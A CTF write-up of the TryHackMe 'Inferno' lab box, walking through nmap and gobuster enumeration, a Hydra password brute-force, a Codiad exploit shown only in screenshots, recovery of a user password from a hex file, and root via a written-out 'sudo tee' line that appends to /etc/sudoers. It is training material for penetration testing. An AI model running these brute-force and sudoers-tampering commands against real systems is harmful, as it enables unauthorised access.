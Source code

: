 ```yaml
---
title: "TryHackMe | Inferno"
layout: post
date: 2023-10-21 19:00
tag: 
- TryHackMe
- Pentesting
- Inferno
- Linux
- CTF
- Meduim
image: https://tryhackme-images.s3.amazonaws.com/room-icons/04838068cabd2452b322e06418cce864.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

A meduim real Life machine + CTF.

---
# Nmap

```bash
nmap -A -T4 10.10.144.11   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-19 13:05 +01
Nmap scan report for 10.10.144.11
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
|_  256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dantes Inferno
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I used the common.txt wordlist but I found nothing, then I used the meduim.txt and found the */inferno* endpoint which needed an authentification :

# Gobuster

```bash
gobuster dir -u http://10.10.144.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.144.11
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/08/19 13:14:59 Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 459]
```

The only way was to bruteforce it using **Hydra** :

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.144.11 http-get /inferno
[80][http-get] host: 10.10.131.118   login: admin   password: dante1
```

Valid combination found : **admin:dante1**

![!\[\[Pasted image 20230819133810.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819133810.png>)

The user has used the same credentials found before (**admin:dante1**).

<p>I saw the title of the webpage 'Codiad' and I went to look for possible exploits :</p>

![!\[\[Pasted image 20230819141402.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141402.png>)

![!\[\[Pasted image 20230819135144.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135144.png>)

Now I'm in as www-data :

![!\[\[Pasted image 20230819135158.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135158.png>)

![!\[\[Pasted image 20230819135133.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135133.png>)

# www-data -> dante


I found a dat file in */home/dante/Downloads* which contains an encoded hex string :

![!\[\[Pasted image 20230819135823.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135823.png>)

The decoded output contains the user dante's password :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230819135800.png>)

**dante : V1rg1l10h3lpm3**

Now I'm in as *dante* :

![!\[\[Pasted image 20230819135948.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135948.png>)

# PE

![!\[\[Pasted image 20230819140016.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819140016.png>)

We see in the output of *sudo -l* that dante can run */usr/bin/tee* as root, **GTFObins** will helps us to exploit that:

[https://gtfobins.github.io/gtfobins/tee](https://gtfobins.github.io/gtfobins/tee)

```bash
echo 'dante ALL=(ALL) NOPASSWD:ALL' | sudo /usr/bin/tee -a /etc/sudoers
```

BOOM I'm root!

And now we can read the root flag and Voilà :

![!\[\[Pasted image 20230819141116.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141116.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>